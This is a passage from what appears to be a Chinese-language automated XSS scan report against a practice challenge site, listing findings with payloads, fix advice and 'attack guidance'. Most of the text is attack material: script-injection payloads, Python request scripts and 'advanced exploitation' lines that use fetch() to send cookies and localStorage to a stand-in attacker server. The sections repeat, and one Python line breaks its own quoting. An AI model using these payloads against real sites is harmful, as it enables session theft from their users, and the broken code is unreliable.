 3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 严重程度: high
- 验证载荷: "><script>alert(1)</script>
- 修复建议: 对所有用户输入进行HTML编码，使用现代框架的XSS防护机制，实施内容安全策略(CSP)

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 keyword 中注入以下payload:
   ```javascript
   "><script>alert(1)</script>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'keyword': '"><script>alert(1)</script>'}
   response = requests.get(url, params=params)
   ```

3. 高级利用：
   ```javascript
   // 窃取Cookie
   <script>fetch('http://攻击者服务器/collect?cookie='+document.cookie)</script>
   // 窃取LocalStorage
   <script>fetch('http://攻击者服务器/collect?data='+JSON.stringify(localStorage))</script>
   ```

### XSS 漏洞
- URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
- 参数: keyword
- 严重程度: critical
- 验证载荷: <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
- 修复建议: 实施严格的输入验证，使用HTML编码，实施CSP策略，定期清理存储的数据

#### 攻击指导
1. 手动攻击步骤：
   - 访问目标URL: https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2
   - 在参数 keyword 中注入以下payload:
   ```javascript
   <script>fetch('http://attacker.com/?cookie='+document.cookie)</script>
   ```
2. 自动化攻击：
   ```python
   import requests
   url = 'https://xss-challenge-tour.bachang.org/level3.php?keyword=%3Csvg+onload%3Dalert%28document.domain%29%3E&submit=%E6%90%9C%E7%B4%A2'
   params = {'keyword': '<script>fetch('http://attacker.com/?cookie='+document.cookie)</script>'}
   response = requests.get(url, params=params)
   ```

